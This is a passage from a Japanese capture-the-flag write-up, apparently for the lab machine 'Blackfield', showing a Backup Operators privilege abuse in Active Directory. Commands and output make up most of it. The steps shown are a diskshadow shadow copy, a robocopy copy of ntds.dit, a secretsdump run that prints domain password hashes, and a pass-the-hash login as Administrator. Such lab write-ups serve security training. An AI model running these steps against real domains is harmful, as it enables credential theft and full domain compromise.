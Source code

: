 これは、`diskshadow`コマンドに実行させる命令を並べたもの（`diskshadow`の`/s`オプションでスクリプト実行）。

この命令群により、新しくEドライブが作られ、そのドライブにCドライブごとコピーされる。

次のように実行する：

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> diskshadow /s script.txt
```

Eドライブ中のntds.ditをrobocopyしてやる：

```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> cd C:\ 
*Evil-WinRM* PS C:\> mkdir tmp
*Evil-WinRM* PS C:\> cd tmp
*Evil-WinRM* PS C:\temp> robocopy /b E:\Windows\ntds . ntds.dit
*Evil-WinRM* PS C:\temp> ls


    Directory: C:\temp


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----       10/29/2022   5:22 AM       18874368 ntds.dit
```

> `robocopy <コピー元> <コピー先> <コピーしたいファイル名>`という書式。`/b`オプションにより、”バックアップとして”コピーという意味になる。
> このオプションを指定しないと、Access deniedとなる。また、普通に`copy E:\Windows\NTDS\ntds.dit .`とやってもPermissionDeniedとなる。

このntds.ditをKaliに送って、`secretsdump.py`を次のように実行する：

```
┌──(shoebill㉿shoebill)-[~]
└─$ impacket-secretsdump -system system -ntds ntds.dit LOCAL
[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:93e4f3417e7db10b00895f5220f036c3:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:600a406c2c1f2062eb9bb227bad654aa:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
...
```

このハッシュでPass-the-HashをしてAdminのシェルをとる

```
┌──(shoebill㉿shoebill)-[~]
└─$ evil-winrm -i 10.10.10.192 -u administrator -H 184fb5e5178480be64824d4cd53b99ee
*Evil-WinRM* PS C:\Users\Administrator\Documents> whoami
blackfield\administrator
```

このやり方は[Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet#abusing-backup-operators-group)にも載ってる方法。
